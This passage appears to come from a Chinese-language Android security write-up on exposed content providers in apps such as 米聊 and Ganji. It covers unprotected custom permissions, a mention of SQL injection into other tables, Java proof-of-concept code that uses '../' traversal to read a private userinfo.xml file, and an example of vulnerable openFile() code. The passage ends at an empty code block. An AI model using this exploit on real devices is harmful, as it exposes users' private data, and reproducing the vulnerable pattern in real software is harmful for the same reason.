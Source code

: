 米聊多处content provider 暴露
```
<provider android:name=".providers.BuddyProvider" android:readPermission="com.xiaomi.channel.READ_BUDDY" android:writePermission="com.xiaomi.channel.WRITE_BUDDY" android:exported="true" android:authorities="com.xiaomi.channel.providers.BuddyProvider" />
```
首先权限声明如下:
```
<permission android:name="com.xiaomi.channel.READ_BUDDY" />

<permission android:name="com.xiaomi.channel.WRITE_BUDDY" />

<uses-permission android:name="com.xiaomi.channel.READ_BUDDY" />

<uses-permission android:name="com.xiaomi.channel.WRITE_BUDDY" />
```
再利用案例1 类似的手法，再利用SQL注入的方式能够访问到数据库中其他的表

### 案例3：openFile文件遍历
该Provider实现了openFile()接口，通过此接口可以访问内部存储app_webview 目录下的数据，由于后台未能对目标文件地址进行有效判断，可以通过"../"实现目录跨越，实现对任意私有数据的访问
``` java
public void GJContentProviderFileOperations(){ 

    try{ 

        InputStream in = getContentResolver().openInputStream(Uri.parse("content://com.ganji.html5.localfile.1/webview/../../shared_prefs/userinfo.xml")); 

        ByteArrayOutputStream out = new ByteArrayOutputStream(); 

        byte[] buffer = new byte[1024]; 

        int n = in.read(buffer); 

        while(n>0){ 

            out.write(buffer, 0, n); 

            n = in.read(buffer); 

            Toast.makeText(getBaseContext(), out.toString(), Toast.LENGTH_LONG).show(); 

        } 

    }catch(Exception e){ 

        debugInfo(e.getMessage()); 

    } 

}
```
Override openFile method  
错误写法1：
``` java
private static String IMAGE_DIRECTORY = localFile.getAbsolutePath();
public ParcelFileDescriptor openFile(Uri paramUri, String paramString)
    throws FileNotFoundException {
  File file = new File(IMAGE_DIRECTORY, paramUri.getLastPathSegment());
  return ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY);
}
```
错误写法2：URI.parse()
``` java
```